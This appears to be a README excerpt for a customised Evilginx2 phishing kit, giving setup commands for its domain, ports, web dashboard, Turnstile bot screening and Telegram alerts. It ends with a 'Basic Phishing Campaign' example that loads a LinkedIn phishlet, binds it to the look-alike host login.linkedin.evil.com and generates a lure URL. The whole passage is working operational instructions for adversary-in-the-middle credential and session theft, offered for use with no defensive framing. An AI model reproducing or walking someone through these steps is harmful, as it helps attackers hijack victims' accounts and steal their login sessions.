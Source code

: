 ### Initial Setup
1. **Run Evilginx2**: `sudo ./evilginx2`
2. **Configure Domain**: `config domain your-domain.com`
3. **Set External IP**: `config ipv4 external YOUR_IP`
4. **Configure Ports**: 
   - HTTPS: `config https_port 443`
   - DNS: `config dns_port 53`
   - Web: `config web_port 8080`

### Web Dashboard Setup
1. **Access Dashboard**: Navigate to `http://your-server:8080`
2. **Initial Setup**: Click "Setup Authentication"
3. **Save Auth Key**: Copy and securely store the generated key
4. **Login**: Use the key to access the dashboard

### Turnstile Configuration
```bash
# Set Turnstile site key
config turnstile site_key YOUR_TURNSTILE_SITE_KEY

# Enable Turnstile
config turnstile enabled true
```

### Telegram Integration
```bash
# Set bot token
config telegram bot_token YOUR_BOT_TOKEN

# Set chat ID
config telegram chat_id YOUR_CHAT_ID

# Enable notifications
config telegram enabled true

# Test connection
config telegram test
```

## 🎯 Usage Examples

### Basic Phishing Campaign
```bash
# Load a phishlet
phishlets load linkedin

# Set hostname
phishlets hostname linkedin login.linkedin.evil.com

# Enable phishlet
phishlets enable linkedin

# Create lure
lures create linkedin
lures get-url 0
```

